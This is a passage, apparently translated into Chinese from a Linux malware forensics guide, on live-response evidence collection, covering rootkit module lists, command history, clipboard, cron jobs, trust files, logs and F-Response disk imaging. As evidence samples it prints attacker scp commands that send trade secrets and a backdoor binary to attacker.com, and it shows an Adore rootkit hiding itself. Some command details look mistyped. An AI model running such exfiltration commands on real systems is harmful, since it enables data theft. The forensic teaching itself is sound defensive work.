- 可以使用 `lsmod` 命令查看当前已加载的模块，该命令显示存储在 “/proc/modules” 文件中的信息。

- 检查每个模块以确定其是否执行合法功能还是恶意功能可能具有挑战性，但异常有时会很突出。

### 调查注意事项

- 处理 LKM 根套件挑战在 *图 1.50* 中得到了展示，该图显示了攻击者指示 Adore LKM 根套件隐藏自身之前和之后的运行模块列表。当 “adore-ng.o” 内核模块加载时，它出现在已加载的 `lsmod` 输出中

```
intruder# lsmod | head
Module Size Used by Not tainted
uff 98144 1 (autoclean)
vfat 13084 0 (autoclean)
fat 38712 0 (autoclean) [vfat]
id e-cd 33608 1 (autoclean)
<edited for length>

intruder# insmod adore-ng.o

intruder# lsmod | head
Module Size Used by Not tainted
adore-ng 18944 0 (unused)
uff 98144 1 (autoclean)
vfat 13084 0 (autoclean)
fat 38712 0 (autoclean) [vfat]
id e-cd 33608 1 (autoclean)
<edited for length>

intruder# insmod cleanser.o

intruder# lsmod
Module Size Used by Not tainted
cleanser 608 0 (unused)
uff 98144 1 (autoclean)
vfat 13084 0 (autoclean)
fat 38712 0 (autoclean) [vfat]
id e-cd 33608 1 (autoclean)
<edited for length>

intruder# rmmod cleanser

intruder# lsmod | head
Module Size Used by Not tainted
uff 98144 1 (autoclean)
vfat 13084 0 (autoclean)
fat 38712 0 (autoclean) [vfat]
id e-cd 33608 1 (autoclean)
<edited for length>
```

图 1.50 — Adore 根套件安装前后的模块列表。


模块，但一旦入侵者使用 inmod 加载 Adore 内核 rootkit 的“cleaner.o”组件，“adore-ng”条目将不再可见。此外，入侵者可以通过使用 rmmod 命令移除“cleaner.o”模块来进一步掩盖踪迹，从而使系统上已加载模块列表与 rootkit 安装前的状态无法区分。

由于内核可加载 rootkit 可以隐藏自身，并且可能不会在模块列表中可见，因此对目标系统的内存转储进行取证分析以确定是否存在实时数据收集期间未可见的恶意软件至关重要。内存取证在《Linux 系统恶意软件取证指南》第 2 章中有详细介绍。

## 收集命令历史

在受影响的计算机上执行的命令可能列在所使用的任何用户帐户的命令历史中。

许多 Linux 系统会为每个用户帐户维护命令历史，可以使用 `history` 命令显示这些信息。这些信息也可以在稍后从与每个用户帐户相关的命令历史文件中获取。

Linux 上的 Bash shell 通常会在每个用户帐户中名为“.bash_history”的文件中维护命令历史。其他 Linux 和 UNIX shell 将此类信息存储在每个帐户中名为“.history”和“.sh_history”的文件中。如果存在，请检查入侵者使用的帐户的命令历史。

命令历史可以为攻击者在系统上的活动提供深入的见解和背景。例如，在图 1.51 中，历史记录显示一个似乎与商业机密相关的文件和目录被秘密删除。

虽然命令历史文件不记录特定命令执行日期，但数字取证人员可能能够通过关联来自其他源的信息（例如系统上文件的最后访问时间戳、来自内存转储的命令历史（如《Linux 系统恶意软件取证指南》第 2 章中进一步讨论的，包含日期—时间戳），或显示从受感染系统传输文件的网络层日志）来确定某些事件的日期和时间。

```text
tar cvf trade-secrets.tar.gz trade-secrets/
ls
scp trade-secrets.tar.gz baduser@attacker.com:
rm trade-secrets.tar.gz
ls
cd
ls
ls Documents
```

### 图 1.51—命令历史内容示例。

例如，安全删除程序的最后访问日期可能显示该程序最后一次执行的时间，这可能就是与命令历史文件中的条目相关联的日期。在进行此类分析时必须谨慎，因为某些 Linux 和 UNIX 系统上的各种活动可能会更新最后访问日期。

### 识别已挂载和共享的驱动器

网络上的其他存储位置可能包含与恶意软件事件相关的信息。

为了简化管理和备份，许多组织配置 Linux 系统不将用户文件存储在本地，而是将用户主目录、电子邮件和其他数据远程存储在中央服务器上。

- 有关已挂载驱动器的信息可在 `/proc/mounts` 和 “/etc/fstab” 中找到，使用 `df` 和 `mount` 命令也可获取相同信息。
- 图 1.52 中以粗体显示了远程服务器上的两个已挂载共享。

```text
# /media/cdrom/Linux-1R/cat /etc/fstab
/dev/hda1                /          ext2    defaults              1 1
/dev/hda7                 /tmp       ext2    defaults              1 2
/dev/hda5                 /usr       ext2    defaults              1 2
/dev/hda6                 /var       ext2    defaults              1 2
/dev/hda8                 swap       swap    defaults              0 0
/dev/fd0                  /media/floppy ext2 user,noauto           0 0
/dev/hdc                  /media/cdrom iso9660 user,ro,iso9660,ro 0 0
none                      /dev/pts   devpts gid=5,mode=620        0 0
none                      /proc      proc  defaults                0 0
server13:/home/accts      /home/accts nfs mode=rw,vers=3,nfs,hard,intr,rsize=8192,wsize=8192
server13:/var/spool/mail  /var/spool/mail nfs
```


- 相反，恶意软件也可能通过通过网络（如 Samba、NFS 或其他服务）共享的目录放置到系统中。由 NFS 服务导出的共享在 “/etc/exports” 文件中配置。
- Samba 配置文件默认位于 “/etc/samba/smb.conf”，其中显示了所有导出的共享。应与系统管理员一起审查共享和已挂载驱动器，以确定是否存在异常条目。

## 确定计划任务

恶意软件可能被计划定期重启，以便在受感染系统重新启动后保持驻留。

Linux 上的计划任务使用 `at` 命令或作为 cronjob 进行配置。

- 运行 `at` 命令将显示即将执行的计划进程，相关的队列通常位于 `/var/spool/cron/atjobs` 和 `/var/spool/cron/atspool` 目录中。
- 检查系统上的 `crontab` 配置文件还将揭示常规计划任务。通常，Linux 系统有一个系统 `crontab` 文件（例如 `/etc/crontab`），一些系统还有 *daily*、*hourly*、*weekly* 和 *monthly* 配置（例如 `/etc/cron.daily/`、`/etc/cron.hourly/`、`/etc/cron.weekly/` 和 `/etc/cron.monthly`）。
- 此外，可以使用用户帐户创建 cronjob。使用特定用户帐户排队的任务队列可以在 `/var/spool/cron/crontabs` 下每个用户帐户的子目录中找到。

## 收集剪贴板内容

当潜在受感染系统的感染途径未知时，剪贴板内容可能提供关于攻击性质的重大线索，特别是如果攻击者是“内部人员”并将文本片段复制以粘贴到工具或攻击字符串中时。

剪贴板内容可能包含：
- 域名
- IP 地址
- 电子邮件地址
- 用户名和密码
- 主机名
- 即时消息聊天或电子邮件内容摘录
- 攻击命令
- 其他有价值的取证物证，用于识别攻击的手段或目的。

使用 `xclip` 检查目标系统剪贴板的内容，它会收集并显示剪贴板的内容，如图 1.53 所示。在此示例中，剪贴板包含一个安全复制命令，用于将后门客户端二进制文件（`reclient-port666`）传输到由攻击者控制的远程主机。

```text
# /media/cdrom/Linux-IR/xclip -o
scp /home/victimuser/evil.sh/reclient-port666 baduser@attacker.com:
```


# 从实时 Linux 系统收集非易失性数据

历史上，数字取证人员被指示创建硬盘的法证副本，并不建议从实时系统中收集文件。然而，并不总是能够获取可能与事件相关的每个系统的所有数据。特别是在涉及大量系统的事件响应情况下，从每个系统获取特定文件以确定哪些受到影响可能是最有效的。从实时系统选择性获取文件而不是创建法证副本的决定必须谨慎做出，因为采取的任何行动都可能改变原始证据。

## 实时 Linux 系统存储介质的法证副本

在某些情况下，例如高可用性系统，可能无法关闭系统进行法证副本。

对于需要更全面分析的系统，请在目标系统的法证副本上执行取证任务。

- 当无法关闭系统时，在系统仍在运行时创建法证副本。
- 图 1.54 中显示的命令将实时 Linux 系统内部硬盘的内容保存为可移动介质上的文件，并包含用于完整性验证目的的 MD5 哈希值以及记录收集过程的审计日志。

```text
$ /media/cdrom/Linux-IR/dc3dd if=/dev/hda of=/media/IR/victim3,dd log=/media/IR/audit/victim3.log hash=md5 blog=/media/IR/audit/victim3.md5
```

### 图 1.54—使用 dc3dd 命令在受感染系统上对硬盘进行法证副本。

- 获取法证副本时，验证是否已获取整个驱动器。
- 一种方法是将 `fdisk -l -u=sectors` 报告的扇区数或字节数（在图 1.55 中以粗体显示）与法证副本中获取的量进行比较。请注意，某些版本的 Linux 上 `fdisk` 使用不同的命令语法，可以使用 `fdisk -lu` 命令显示扇区数。
- 然而，在某些情况下，`fdisk` 不会检测到所有扇区，例如当存在主机保护区域（HPA）或设备配置叠加（DCO）时。


## 图 1.55——使用 `fdisk -l -u = sectors` 命令在实时系统上列出分区详细信息。

因此，在对实时系统进行取证副本获取时，应检查其配置（例如，使用 The SleuthKit[23] 中的 `dmseg`、`diask_stat` 或 `hdparm`[24]），以及硬盘标签和任何在线文档中的扇区数量。

- 请注意，保留 `fdisk` 输出中显示的各个分区可能有助于后续分析，但如果需要，这些分区也可以从完整磁盘镜像中提取出来。[25]
- The SleuthKit 的最新版本允许用户在完整磁盘镜像中选择特定的分区。

## 实时 Linux 系统存储介质的远程获取

> 可以使用 F-Response 从目标系统远程获取硬盘内容。

F-Response 是一个事件响应框架，它实现了互联网小型计算机系统接口（称为 “iSCSI”）[26] 启动程序服务，从而提供对联网计算机的物理磁盘以及大多数 Linux 系统的物理内存的只读访问权限。[27]

- F-Response 有四个版本（Field Kit、Consultant、Enterprise 和 TACTICAL），它们在部署方式上有所不同，但都能将远程目标系统的驱动器作为本地挂载的驱动器进行访问。
- F-Response 具有灵活性且 “不依赖供应商”，这意味着一旦连接到目标系统，就可以使用任何工具来获取其硬盘和物理内存的镜像。
- F-Response Field Kit 和 TACTICAL 通常用于实时响应场景，特别是在目标系统位于第三方地点且事件发生前未部署 F-Response Consultant Edition 或 Enterprise Edition 的情况下。
- F-Response Field Kit 需要一个 USB 密钥令牌（key FOB dongle）和 Field Kit Linux (ELF) 可执行文件 (f-response-fk-lin)，两者均需在目标系统上启动。
- 相反，允许数字取证调查员利用 F-Response 结果的检查员系统，只需安装并调用 iSCSI 启动程序服务即可。可以在 Windows 检查员系统上安装 Microsoft iSCSI Initiator[28]，而在 Linux 检查员系统上则可以安装 Open-iSCSI[29]。
- F-Response TACTICAL 使用可区分的成对密钥令牌部署并具备自动 iSCSI 信标功能，将在下文及本书末尾的工具箱部分中讨论。
- 要使用 F-Response Field Kit 访问远程目标系统的物理磁盘，请将 USB 密钥令牌连接到目标系统，并从命令行执行 F-Response，如图 1.56 所示。-u 和 -p 开关分别指定会话的用户名和密码。
- 从目标系统调用 F-Response Field Kit 后，从检查员系统识别并连接到该系统。为了说明本节内容，我们将讨论从 Linux 和 Windows 检查员系统进行获取的操作，因为许多数字取证调查员习惯性地选择使用 Windows 检查员系统执行此任务。

```
root@ubuntu:/home/victim-system/Desktop# ./f-response-fk-lin -u malwarelab -p password!23456
F-Response Field Kit (Linux Edition) Version 4.00.02
F-Response Disk:/dev/sda (41943040 sectors, 512 sector size)
20480 MB write blocked storage on F-Response Disk:/sda
```

**图 1.56——在目标 Linux 系统上执行 F-Response Field Kit。**

## 从 Linux 检查员系统进行获取

- 从 Linux 检查员系统连接到目标系统是通过命令行完成的，并且需要在检查员系统上安装和配置 Open-iSCSI。[30]
- 为了发现来自目标系统的 F-Response 信标，请使用 Open-iSCSI 管理工具 (*iscsiadm*)，它包含在 Open-iSCSI 套件中。
- 如 *图 1.57* 所示，有效的开关参数包括：-m (模式)、discovery (iSCSI 目标的发现)；-t (目标类型)；st ("sentargets" 的缩写，一种原生 iSCSI 协议，允许每个 iSCSI 目标向启动程序发送可用目标的列表)；-p ("target portal"，包括目标 IP 地址和端口；默认端口号为 3260)；以及 -P (打印级别)。

```
root@ubuntu:/home/malwarelab# iscsiadm -m discovery -t st -p 192.168.79.131:3260 -P 1
Target: iqn.2008-02.com.f-response.ubuntu:sda
Portal: 192.168.79.131:3260,1
Iface Name: default
```


- 使用此命令查询后，目标系统的名称、IP 地址和端口号将被识别。利用这些信息，*iscsiadm* 可以被用来连接到目标系统，如图 *1.58* 所示。

```
root@ubuntu:/home/malwarelab# iscsiadm -m node -T iqn.2008-02.com.f-response.ubuntu:sda -l
Logging in to [iface: default, target: iqn.2008-02.com.f-response.ubuntu:sda, portal: 192.168.79.131:3260]:
Login to [iface: default, target: iqn.2008-02.com.f-response.ubuntu:sda, portal: 192.168.79.131:3260] successful
```


- 一旦通过 F-Response 连接到目标系统，即可在检查员系统上本地访问目标系统的硬盘。要验证远程驱动器是否已成功获取并在检查员系统上本地挂载，请使用 *fdisk –lu* 命令（或使用原生的图形化磁盘管理工具）。导航至 */media* 目录以查看和访问挂载的驱动器。

[30] 关于 open-iSCSI 的安装和配置指南（特别是用于与 F-Response 配合使用的目的），F-Response 团队在其博客上提供了说明。 <http://www.f-response.com/index.php?option=com_content&view=article&id=51:3accessing-f-response-using-linux&catid=34:%3Ablog-posts&Itemid=55>。值得注意的是，用于标识由 F-Response 获取的目标的标准 “-qn, > host identifier >” 格式。这只是一个 iSCSI 非单调递增名称（“iqn” 是 iSCSI 限定名称），它需要日期和域名——它并不表示取证时间戳，也不需要访问 *f-response.com* 互联网。

- 使用 F-Response 将远程目标系统硬盘本地挂载，为数字取证调查员提供了灵活性，既可以取证获取整个硬盘的镜像，也可以逻辑获取选定数据。

## 调查注意事项

- 驻留在 /dev 目录和 /proc 文件系统中的易失性信息无法通过 F-Response 访问。请记住，/dev 和 /proc 是本地 Linux 机器上的动态内存结构，这些目录中包含的信息仅仅是指向内存驻留结构的符号链接。因此，使用 F-Response 挂载目标系统的物理磁盘将不会使数字取证调查员能够访问这些结构。

## 从 Windows 检查员系统进行获取

- 从 Windows 检查员系统使用 F-Response Field Kit 连接到目标系统是一种常见做法，通过图形化的 Microsoft iSCSI 启动程序服务完成。[31]
- 在本地检查员系统上，调用 Microsoft iSCSI 启动程序服务，选择 “发现” 选项卡，并添加目标系统作为目标，如图 1.59 所示。



**图 1.59——通过 iSCSI 启动程序服务将目标系统添加为目标。**

[31] 有关平台要求的更多细节以及由 F-Response 提供的培训视频，请访问 <http://www.f-response.com/index.php?option=com_content&view=article&id=165&Itemid=83>。


选择“高级”选项，并提供在与目标系统（图 1.60）上使用的 F-Response 远程配置中相同的用户名和密码凭证。



图 1.60—通过 iSCSI 启动器进行身份验证以获取目标系统。

身份验证完成后，目标系统将被显示为目标。从目标列表中选择目标系统的硬盘（需要重新进行身份验证）并连接到目标系统；连接状态将显示在目标列表中（图 1.61）。



图 1.61—连接到目标系统。

- 一旦通过 F-Response 连接到目标系统，目标系统的硬盘可以被识别为连接到你的审查员系统的物理设备——但不会显示为已挂载的卷。这是因为大多数 Linux 发行版默认的 ext3 和 ext4 文件系统不能被 Windows 原生读取。³²
- 为了确认目标系统物理磁盘是已连接的设备，在审查员系统的磁盘管理管理单元中识别该磁盘。³³ 如图 1.62 所示，目标系统驱动器将显示为一个具有未识别文件系统的物理磁盘。


- 虽然目标系统的物理磁盘无法被挂载和访问，但可以进行取证镜像获取。要获取磁盘镜像，只需在你的审查员系统上使用你选择的取证获取工具，并选择目标系统驱动器作为镜像源。如图 1.63 所示，目标 Linux 系统驱动器使用 FTK Imager 被识别并选择为源驱动器。³⁴



³² Ext2/3/4 文件系统可以使用几种实用程序在 Windows 上读取，例如开源工具 ext2Read。<http://sourceforge.net/projects/ext2read>。
³³ 磁盘管理管理单元在 Windows XP、Windows 2003 和 Windows Vista 中位于管理工具 > 计算机管理 > 存储 > 磁盘管理中。在 Windows 7 中，可以通过控制面板 > 系统和安全 > 管理工具 > 计算机管理然后存储 > 磁盘管理，或者右键单击“我的电脑”> 管理来访问。
³⁴ 有关 FTK Imager 的更多信息，请访问 <https://ad-pdf.s3.amazonaws.com/FTKImager_UserGuide.pdf>；以及 <http://accessdata.com/support/downloads>。

## F-Response 战术版

- 作为现场实时响应的一体化解决方案，F-Response 战术版使用独特的双 U 盘/存储设备解决方案，使数字调查人员能够快速且无缝地进行远程取证获取，即使对目标网络拓扑结构知之甚少。
- 双 U 盘——一个用于目标系统，一个用于审查员系统（如图 1.64 所示）——使用 iSCSI“自动信标”，作为一个对来连接远程目标系统到数字调查员的检查系统。


图 1.64.—F-Response 战术版“目标”和“审查员”U 盘。

- 一旦启动，战术目标系统会在默认 iSCSI 端口（3260）上作为可用的 iSCSI 目标发送信标。相反，一旦执行战术审查员程序，Open-iSCSI 套件（需要预先安装）将用于建立到远程战术目标系统的连接。
- 战术版直接从 U 盘运行，目标系统上无需安装。与 F-Response 的其他版本一样，除了 Linux 系统，战术版还可以获取 Windows 和 Mac OS X 目标系统。
- 当战术目标 U 盘插入目标系统时，它包含“战术目标”目录，该目录中包含 Windows、Linux 和 Mac OS X 系统的可执行文件。

- 如图 1.65 所示，在执行 Linux 可执行文件 (f-response-tacsub-lin) 后，F-Response 被启动，目标系统作为 iSCSI 目标发送信标，并允许对完整物理磁盘进行只读访问。

```
root@ubuntu/media/SUBJECT/TACTICAL Subject# ./f-response-tacsub-lin

F-Response TACTICAL Subject (Linux Edition) Version 4.00.02
F-Response Disk: /dev/sda (4194304 sectors, 512 sector size)
20480 MB write blocked storage on F-Response Disk:sda
F-Response Disk: /dev/sdb (3947520 sectors, 512 sector size)
1927 MB write blocked storage on F-Response Disk:sdb
```

**图 1.65**—在远程系统上执行 F-Response 战术目标程序。

- 在启动 F-Response 战术目标程序后，启动 F-Response 战术审查员程序。与在目标系统上使用的步骤类似，将审查员 U 盘插入本地审查员系统，并执行位于“战术审查员”目录中的 Linux 可执行文件 (f-response-tacex-lin)。

- 执行后，F-Response 战术审查员以“*自动定位*”模式运行——调用 `iscsiadm` 实用工具（在目标系统上安装的 Open-iSCSI 套件内），并监听战术目标信标，如图 1.66 所示。

```
root@ubuntu/media/EXAMINER/TACTICAL Examiner# ./f-response-tacex-lin

F-Response TACTICAL Examiner - Linux Version 4.00.01
F-Response TACTICAL Examiner for linux requires Open-iSCSI.
Checking for Open-iSCSI utils now...
Open-iSCSI (iscsiadm) found.

Listening for TACTICAL Beacon...
Located TACTICAL Beacon.
Discovery Results:
F-Response Target = iqn.2058-02.com.f-response.ubuntu:sda
F-Response Target = iqn.2058-02.com.f-response.ubuntu:sdb

Populating Open-iSCSI with mode details...
New iSCSI node tcp:[hw:1p:,net_if=lo,iscsi_if=default] 192.168.79.131,3260,1
iqn.2058-02.com.f-response.ubuntu:sda] added
New iSCSI node tcp:[hw:1p:,net_if=lo,iscsi_if=default] 192.168.79.131,3260,1
iqn.2058-02.com.f-response.ubuntu:sdb] added
Mode information complete, adding authentication details.

Completed Open-iSCSI configuration, use the following commands to connect to a target

'iscsiadm -m node' --> Lists available nodes
'iscsiadm -m node --targetname=<TARGETNAME> --login' --> Logs into a given mode.
'iscsiadm -m node --targetname=<TARGETNAME> --logout' --> Logs out of a connected mode.
```

**图 1.66**—使用 F-Response 战术审查员来识别目标系统。

- 一旦找到信标，目标系统被识别为 iSCSI 目标。F-Response 战术审查员工具的输出直观地提供了数字调查员连接目标系统所需的 `iscsiadm` 命令（图 1.67）。

```
root@ubuntu:/media/EXAMINER/TACTICAL_Examiner# iscsiadm -m node -T iqn.2008-02.com.f-response.ubuntu:sda -I
logging in to iFACE: default, target: iqn.2008-02.com.f-response.ubuntu:sda, portal: 192.168.79.213,3260]
login to iFACE: default, target: iqn.2008-02.com.f-response.ubuntu:sda, portal: [192.168.78.131,3260]: successful
```



- 如果无法通过自动定位发现战术目标信标，可以使用 F-Response 战术审查员手动查询目标系统，使用以下命令：
- `./f-response-tacex-linux -8 <SUBJECT_IP> -p <SUBJECT_PORT>`。

### 使用 F-Response 战术审查员图形用户界面

- 使用 F-Response 战术审查员的另一种方法是新开发的图形用户界面。³⁵
- 执行图形用户界面后，从菜单中选择 **文件 > 自动定位**；发送信标的战术目标系统将被发现，并在工具界面的主窗口中被识别为 iSCSI 目标，如图 1.68 所示。




³⁵ <http://www.f-response.com/index.php?option=com_content&view=article&id=317:f-response-tactical-examiner-for-linux-gui&catid=34:blog-posts>。

- 如果目标系统无法通过自动定位发现，请使用“手动连接”选项，该选项提供一个次要窗口以提供目标系统的网络标识符（**图 1.69**）。



**图 1.69**—输入目标系统的连接详细信息。

- 发现目标系统后，从审查员图形用户界面菜单中选择 **连接 > 登录**以连接到目标系统，如图 1.70 所示。



**图 1.70**—连接到远程目标系统并在本地挂载物理磁盘。

- 一旦连接到目标系统，目标系统驱动器将在审查员系统上作为本地磁盘进行挂载。

- 使用 `fdisk -lu` 命令验证远程目标系统磁盘是否已在本地挂载（**图 1.71**），并相应地导航 `/media` 目录以确认磁盘可访问。


## 调查考量

- 一个采用 ext4 文件系统的被检对象物理磁盘，虽然可以在审查者系统上被识别为一个设备，但无法在 `/media` 目录中挂载或访问。

## 对活动 Linux 系统上选定数据的取证保存

- 某些系统过大而无法完整复制，或者仅包含有限的有用信息。
- 当无法创建被检系统的取证副本时，可能需要从活动系统中有选择地保存若干文件。遵循一致的方法论，并仔细记录为从活动系统获取单个文件而采取的每个操作，可以减少出错的风险，并使数字取证调查人员在为证据进行辩护时处于更有利的地位。
- 与在专有格式（例如注册表、事件日志）中存储某些数据的 Windows 系统不同，大多数 Linux 系统中的配置和日志数据都存储在文本文件中。然而，不同的 Linux 系统在位置各异的目录中存储信息，这使得收集所有可用来源变得更加困难。本节将讨论在大多数 Linux 系统上存在、且最可能包含与恶意软件事件相关信息的那些文件。

### 评估安全配置

- 安全弱点可能揭示恶意软件是如何被植入到被入侵系统中的。
- 确定系统是否得到了良好保护，可以帮助取证检查人员评估主机被滥用的风险级别。
- 互联网安全中心（CIS）拥有评估 Linux 系统安全性最全面的指南之一，并为多种 Linux 发行版提供自动安全评估脚本。

### 评估受信主机关系

- 与受信主机的连接安全性较低，可能被恶意软件或入侵者用来获取未授权的访问权限。
- 本节将审查被入侵系统与网络中其他系统之间的信任关系。
- 例如，一些恶意软件会扩散到拥有共享账户的计算机，或者针对那些列在被入侵系统 `/etc/hosts` 文件中的系统。
- 此外，一些恶意软件或入侵者会重新配置被入侵系统上的信任关系，以允许来自非受信主机的特定连接。例如，在系统的 `/etc/hosts.equiv` 或 `/etc/hosts_ldap` 中放置“+”（加号）条目和非受信主机名，会导致被入侵计算机允许来自非受信计算机的连接。
- 还可以将个人用户账户配置为信任远程系统，方法是通过 `.rhosts` 文件，因此数字取证调查人员应查找这些文件中的异常信任关系，尤其是 root、uucp、ftp 以及其他系统账户。
- 在一案例中，对与 root 账户相关的 `.rhosts` 文件的检查显示，该文件被配置为允许任何人从任何地方连接到该账户（其中包含“+ +”）。这种宽松的配置允许恶意软件使用 `rexec` 命令在系统上执行远程命令，而无需提供密码。
- 此外，通过 X Server 服务在 Linux 中可用远程桌面功能。允许与被检对象系统进行远程桌面会话的主机在整个系统层面通过 `/etc/X0.hosts` 进行配置（其他显示编号将在 `/etc/X2.hosts` 中配置，其中“X”是显示编号），以及通过个人用户账户的 `.Xauthority` 文件进行配置。
- 另外，当交换了授权的公钥加密密钥时，可以配置 SSH 以允许远程系统在无需密码的情况下连接。可信服务器及其加密密钥的列表存储在名为 `authorized_keys` 的文件中，这些文件位于每个用户账户的主目录中。
- 发现被入侵系统与网络中其他计算机之间的此类关系，可能会引导取证检查人员找到其他被入侵系统及有用的额外证据。

### 收集登录和系统日志

- 日志条目可能包含关于恶意软件事件的大量且重要的信息，包括时间段、攻击者 IP 地址、被入侵/未授权的用户账户，以及 rootkit 的特洛伊化服务的安装。
- Linux 系统上有许多包含登录事件信息的文件。
- 除了通用系统日志外，`wtmp` 和 `lastlog` 文件还包含关于登录事件的详细信息。
- `wtmp` 文件是一个简单的数据库，其中包含有关过去登录会话的详细信息（即临时存储在 `utmp` 文件中的相同信息），其内容可以使用 `last` 命令的可信版本以人类可读的形式显示，如图 1.72 所示。

```text
# /media/cdrom/Linux-IR/last
eco   pts/0       172.16.215.131      Wed Feb 20 16:22 - 16:32 [00:09]
eco   tty1              Mon Oct 13 08:04 - 08:19 [00:15]
root  tty1              Thu Sep 4 19:49 - 19:50 [00:00]
reboot  system boot 2.4.18-14 Thu Sep 4 19:41
[1629+21:38]
wtmp begins Thu Sep 4 19:41:45 2003
```

**图 1.72**——使用 `last` 命令显示的登录事件详细信息。

#### 查看 wtmp 文件

“/var/log” 中可能存在额外的归档 “wtmp” 文件（例如名为 wtmp.1, wtmp.2），通常可以使用 `last -f wtmp.1` 命令读取。last 命令的一个限制是，它可能无法显示远程计算机的完整主机名。取证分析工具 EnCase 有一个脚本，可以解释并显示 wtmp 文件，并提供完整的主机名。

- 关于每个用户账户最近一次成功或失败登录的详细信息存储在 `/var/log/lastlog` 中，并可以使用 `lastlog` 命令显示（图 1.73）。

```text
# /media/cdrom/Linux-IR/lastlog
Username                    Port     From                 Latest
root                           tty1                     Wed Sep   4 19:41:13 -5000 2008
bin                                              **Never logged in**
ftp                                              **Never logged in**
ssh                                            **Never logged in**
webalizer                                          **Never logged in**
eco               pts/8              172.16.215.131   Med Feb 20 16:24:06 -5000 2008
```

- 在 Linux 计算机上复制系统日志相对简单，因为大多数日志都是文本格式，通常存储在 `/var/log` 目录中。
- 某些其他版本的 Linux 和 UNIX 将日志存储在 `/usr/adm` 或 `/var/adm` 中。当 Linux 系统被配置为将日志发送到远程服务器时，`syslog` 配置文件 `/etc/syslog.conf` 将包含一行显示图 1.74 中所示的配置。

```text
*.*                               @remote-server
```

- 当被检对象系统已被入侵，且入侵者或恶意软件可能已篡改本地日志时，集中式日志源可以是一个巨大的优势。

## 结论

- 无论使用何种工具以及受检操作系统如何，都必须确立一种保存方法论，以确保以尽可能一致和可重复的方式捕获可用的易失性数据。出于取证目的，并保持数据完整性，需保留对活动系统上采取步骤的详细文档。
- 本文中的方法论为对活动 Linux 系统上的易失性数据进行取证保存提供了一般且健壮的基础。它可能需要根据某些情况进行调整。该方法旨在将易失性数据捕获为证据来源，使客观观察者能够






评估数据保存过程以及所获取数据本身的可靠性和准确性。

- 收集易失性数据是一个敏感的过程，必须极其谨慎以最小化在保存过程中对目标系统所做的更改。因此，强烈不建议在运行中的系统上进行广泛的检查和搜索。如果该系统确实非常值得研究，请花时间创建磁盘的法证副本以便进行检查，如《Linux系统恶意软件法证指南》第3章所述。
- 不要信任目标系统的操作系统，因为它可能提供不完整或虚假的信息。为了缓解此风险，寻找证据的佐证来源，例如端口扫描和日志文件。
- 一旦初始事件响应过程完成且易失性数据已保存，可能仍需检查目标系统的完整内存转储和磁盘映像。例如，当数字取证调查员遇到加载到内核或注入到内存中的rootkit时，通常需要检查被入侵系统的完整内存转储，以发现恶意软件在运行系统中隐藏的证据。此外，对被入侵系统的复活克隆体进行检查以深入理解恶意软件的功能也是富有成效的。
- 关于检查来自Linux系统内存和硬盘法证映像的方法论和工具，包括克隆和复活，分别涵盖在《Linux系统恶意软件法证指南》第2章和第3章中。

## 附录 1

### 恶意软件法证工具箱：用于调查Linux系统的实时响应工具

在本书中，我们讨论了许多可用于实时响应调查过程中的工具。在书中，我们部署了许多工具以展示它们在受感染系统上使用时功能和输出；然而，有一些工具替代方案是您应该了解并熟悉的。在本节中，我们探讨这些工具替代方案。本节也可以简单地用作“工具快速参考”或“作弊表”，因为在调查中必然会遇到拥有额外有用工具对特定功能有益的情况。

本节的工具按总体“工具类型”进行标识——界定相关工具如何整合到您的恶意软件法证实时响应工具箱中的范围。此外，每个工具条目提供了关于工具作者/发行商、关联URL、工具描述以及（如适用）有用的命令开关的详细信息。

### 事件响应工具套件

在本书中，我们使用特定工具逐步检查了事件响应过程，以获取目标系统状态数据的各个方面。有许多工具套件专门设计用于在事件响应期间以自动化方式从Linux系统收集数字证据并生成保存过程的支持文档。这些工具选项，包括工具的优缺点，将在本节中涵盖。

| 字段 | 值 |
| :--- | :--- |
| **名称：** | LINRES v1.1 - Linux事件响应脚本 |
| **页码参考：** | 7 |
| **作者/发行商：** | Nii Consulting |
| **获取来源：** | http://www.niiconsulting.com/innovation/llres.html |
| **描述：** | LIRRES是一个实时响应工具套件，它使用四个不同的脚本来调用超过80个不同的受信任二进制文件，以从目标系统收集易失性和非易失性数据。发起脚本`lr_ir`是主要脚本，它按照预定义顺序调用三个“子脚本”。第一个子脚本`main.sh`收集环境数据，例如正在运行的进程、打开的网络连接、最近登录、错误登录等。第三个脚本`metadata.sh`从系统中的所有文件收集元数据信息。最后一个脚本`hash.sh`收集系统中每个文件的MD5哈希值。脚本收集的数据通过网络通过netcat远程传输到法证工作站，netcat会在脚本执行过程中自动调用。LIRRES最初是为从较老一代的Red Hat系统进行实时数据收集而设计的；因此，数字取证调查员可能需要调整脚本以确保从目标系统进行有效且成功的数据收集工作。 |

| 字段 | 值 |
| :--- | :--- |
| **名称：** | Helix (Linux事件响应脚本 (linux-ir.sh) 和静态二进制文件) |
| **页码参考：** | 7 |
| **作者/发行商：** | E-Fense |
